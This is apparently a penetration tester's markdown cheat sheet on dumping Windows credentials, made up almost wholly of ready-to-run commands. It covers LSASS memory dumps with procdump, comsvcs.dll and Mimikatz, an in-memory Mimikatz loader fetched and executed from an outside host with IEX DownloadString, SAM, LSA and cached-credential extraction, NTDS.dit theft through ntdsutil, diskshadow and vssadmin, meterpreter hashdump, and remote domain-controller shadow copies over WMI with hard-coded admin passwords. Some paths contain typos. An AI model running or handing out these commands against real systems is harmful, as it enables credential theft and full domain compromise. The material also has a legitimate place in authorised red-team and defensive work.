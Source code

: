 ```yaml
---
title: "Dumping credentials"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```


## Local
Ways of dumping the lsass.exe process locally
***

#### Using in-memory Mimikatz using PowerShell (Work Out)
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
***

#### LSASS using Task manager
Right click on a the lsass.exe process and select 'Create Dump File'. This will require administrative rights. Hashes can now be dumped using Mimikatz.
```
sekurlsa::minidump <lsass.DMP locations>
sekurlsa::logonpasswords
```
***

#### LSASS using Procdump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
***

#### LSASS using (native) comsvcs.dll
```
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```
***

#### LSASS using the MiniDumpWriteDump API
Reference: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass
***

#### SAM using samdump2
Samdump2 is available for both Windows and Linux (Included in Kali). To decrypt the SAM you'll need the SYSTEM hive. When booted from an external medium you can extract both the SAM and SYSTEM file from 'C:\Windows\System32\Config\'. On Windows you can save it to a file using 'reg save':
```
reg save hklm\system system
reg save hklm\sam sam
```
Now you can use samdump2 to decrypt the SAM.
```
samdump2 system sam
```
***

#### LSA Secrets using Mimikatz
LSA Secrets are stored in the registry ('HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets'). You can directly extract them using Mimikatz.
```
token::elevate
lsadump::secrets
```
Or you can retrieve the SYSTEM- and SECURITY-file and dump the credentials after the fact.
```
reg save HKLM\SYSTEM system
reg save HKLM\security security
```
```
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
***

#### Cached Domain Credentials using mimikatz
```
lsadump::cache
```
***

#### Hashes directly from a domain controller using ntdsutil (lolbin)
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
The hashes can be dumped offline using secretsdump.py
```
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```
***

#### Hashes using diskshadow
Put the following commands in a .txt file.
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```
And execute the following commands
```
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```
The ntds.dit will be actracted and placed in the C:\exfil folder. Execute the following commands to perform cleanup.
```
diskshadow.exe
    > delete shadows volume trophy
    > reset
```
***

#### NTDS.dit using vssadmin
Using vssadmin we can create shadow copies of drives. Using this we can access the ntds.dit in the shadow copy volume, since it is not in use there.
Creat a shadow copy volume:
```
vssadmin create shadow /for=c:
```
The volume should now be created and return an id and location of the copy. You could verify using:
```
vssadmin list shadows
```
Copy the ntds.dit to a writeable local location (path will probably differ):
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTFDS\ntds.dit C:\temp\ntds.dit
```
Save the SYSTEM key, so we can decrypt the ntds.dit file offline.
```
reg save HKLM\SYSYEM C:\temp\SYSTEM
```
Delete the shadow copy volume after you're done
```
vssadmin delete shadows /shadow="{2342352f-5234-252e-342345-2352342d2fd}"
```
We decrypt the hashes using secretsdump to crack them afterwards.
```
secretsdump -ntds ntds.dit -system SYSTEM LOCAL -outfile customer_hashes.txt
```

## Remote
***

#### Cached Domain Credentials using meterpreter
The 'hashdump' command in meterpreter will dump the local SAM account hashes.
```
hashdump
```
To dump cached domain credentials in the mscach format the 'cachedump' module can be used.
```
getsystem
use post/windows/gather/cachedump
run
```
The output will be in the 'mscache'-format.
***

#### Cached Domain Credentials using secretsdump

Obtain the SAM, SECURITY and SYSTEM hive. Either trough booting from an external medium or using reg.exe.
```
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```

After obtaining the hives the hashes can be dumped using secretsdump from impacket.
```
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
***

#### Domain controller hashes shadow copy over WMI

Creat a shadow copy of the C drive.
```powershell
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
Copy the ntds.dit, SYSTEM and SECURITY hives to C:\temp on the remote machine
```powershell
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
Mount the remote C:\temp directoy to your local machine
```
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
Now you can run secretsdump to dump the hashes (as shown in previous examples)